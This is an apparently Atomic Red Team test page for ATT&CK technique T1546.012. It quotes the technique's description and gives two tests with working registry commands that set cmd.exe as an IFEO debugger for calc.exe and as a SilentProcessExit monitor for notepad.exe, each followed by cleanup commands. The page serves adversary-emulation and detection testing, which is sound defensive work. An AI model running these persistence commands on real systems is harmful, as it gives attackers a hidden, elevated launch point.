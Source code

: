 # T1546.012 - Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/012)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by Image File Execution Options (IFEO) debuggers. IFEOs enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., <code>C:\dbg\ntsd.exe -g  notepad.exe</code>). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code>&lt;executable&gt;</code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IFEO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

Similar to [Accessibility Features](https://attack.mitre.org/techniques/T1546/008), on Windows Vista and later as well as Windows Server 2008 and later, a Registry key may be modified that configures "cmd.exe," or another program that provides backdoor access, as a "debugger" for an accessibility program (ex: utilman.exe). After the Registry is modified, pressing the appropriate key combination at the login screen while at the keyboard or when connected with [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) will cause the "debugger" program to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may also be abused to obtain privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Elastic Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous triggered invocation.

Malware may also use IFEO to [Impair Defenses](https://attack.mitre.org/techniques/T1562) by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)


<br/>

## Atomic Test #1 - IFEO Add Debugger

auto_generated_guid: fdda2626-5234-4c90-b163-60849a24c0b8

Leverage Global Flags Settings
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;calc.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags

auto_generated_guid: 46b1f278-c8ee-4aa5-acce-65e77b11f3c1

Leverage Global Flags Settings
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```





<br/>
